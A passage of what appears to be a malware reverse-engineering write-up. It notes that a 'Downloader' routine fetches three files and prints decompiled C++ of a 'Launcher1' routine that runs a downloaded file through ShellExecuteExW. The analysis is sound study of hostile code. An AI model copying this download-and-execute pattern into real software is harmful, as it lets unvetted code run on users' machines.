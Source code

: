 let's look into the next sub routine Downloader

![alt text](image-12.png)

we can see it downloads 3 files in 3 different folders of the previous subroutine.

now let's look into the next sub routine Launcher1

```cpp
char Launcher1(void)
{
  char result; // al
  SHELLEXECUTEINFOW pExecInfo; // [rsp+20h] [rbp-70h] BYREF

  memset(&pExecInfo, 0, sizeof(pExecInfo));
  pExecInfo.cbSize = 112;
  pExecInfo.fMask = 0;
  pExecInfo.hwnd = 0i64;
  pExecInfo.lpVerb = (LPCWSTR)"o";
  pExecInfo.lpFile = &downloadFile1;
  pExecInfo.lpParameters = 0i64;
  pExecInfo.lpDirectory = 0i64;
  pExecInfo.nShow = 5;
  pExecInfo.hInstApp = 0i64;
  result = !ShellExecuteExW(&pExecInfo);
  if ( result )
    return text_109(L"Failed to launch\n");
  return result;
}
```